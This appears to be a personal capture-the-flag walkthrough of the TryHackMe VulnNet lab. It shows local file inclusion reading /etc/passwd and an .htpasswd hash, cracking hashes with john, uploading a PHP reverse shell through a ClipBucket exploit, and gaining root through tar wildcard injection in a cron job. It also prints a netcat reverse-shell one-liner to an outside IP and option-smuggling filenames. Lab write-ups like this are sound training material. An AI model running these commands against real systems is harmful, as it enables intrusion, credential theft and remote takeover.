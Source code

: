 
2025-01-30 22:44

Source: #Boot2root

After adding the IP to `/etc/hosts`, we do some directory busting which leads us nowhere so we [[crawling a website]] to find links 

Checking the source code of the main page reveals 2 JavaScript imports at the end of the code
- The analysis of the first script will reveal the following subdomain - `http://broadcast.vulnnet.thm`
- The second script reveals that `index.php` accepts a `referer` parameter - `http://vulnnet.thm/index.php?referer=`
#### LFI 

Browsing this new subdomain prompts for a basic authentication, which is a dead end at this stage. Let’s check the other information.

Injecting `/etc/password` as `referer` confirms that the page suffers from a Local File Inclusion ([[LFI]])
```sh
curl -s http://vulnnet.thm/?referer=/etc/passwd
```

Let’s check in the Apache configuration files 
```sh
curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf
```

from the above command we get to know that the password file is located in  `/etc/apache2/.htpasswd`
```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

the username is developers and the `md5crypt` hash is to the right
use john to crack the hash 
```sh
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
### Revshell

- on accessing the website `broadcast.vulnnet.thm` we see that it uses `clipbucket 4.0`
- This version has a exploit available on `searchsploit`, we can upload a file without authentication
Follow the instructions in the exploit and upload a php [[revshell]]

Open a listener (`nc -nlvp 4444`) and browse the uploaded shell `http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1620367741f6065c.php`.
### Lateral movement

- Lateral movement from www-data > server-management
Checking the `/home` folder, as well as the `/etc/passwd` file will confirm the existence of a `server-management` user.

Let’s check what files are owned by this user [[Find]]
```
find / -type f -user server-management -exec ls -l {} + 2>/dev/null
```

this user owns a zip file in the `/var/backup` directory, copy the file to your machine
```
cp /var/backup/ssh-backup.tar.gz /tmp
cd /tmp
tar xvf ssh-backup.tar.gz
```

convert the file to something that [[john]] will understand 
```
python /usr/share/john/ssh2john.py id_rsa > ssh.hash
```

then crack the hash using john

## [[Privilege Escalation]] Cronjon with wildcard

after gettting the hash [[ssh (22 port)]] as the user 
```sh
ssh -i id_rsa server-management@vulnnet.thm
```

There is a [[cronjob]] (`/var/opt/backupsrv.sh`) run by `root` every 2 minutes
We don’t have write access to the script.

The script is backing up our `Documents` folder using `tar` to compress the archive.

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) what we can do with `tar` confirms that we can exploit it by creating 2 files which names will be interpreted as options passed to the `tar` command.

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh

touch "/home/server-management/Documents/--checkpoint=1"

touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```

start a listener then wait for the cronjob to run.

### References
[TryHackMe | VulnNet](https://tryhackme.com/r/room/vulnnet1)

walktrough
[TryHackMe-VulnNet - aldeid](https://www.aldeid.com/wiki/TryHackMe-VulnNet)
[VulnNet Tryhackme Writeup. By Shamsher khan This is a Writeup of… | by Shamsher khan | InfoSec Write-ups](https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959)
[TryHackMe — Vulnnet WriteUp/Walkthrough | by Arnav singh | Medium](https://medium.com/@arnavsinghinfosec/tryhackme-vulnnet-writeup-walkthrough-3b7846b24416)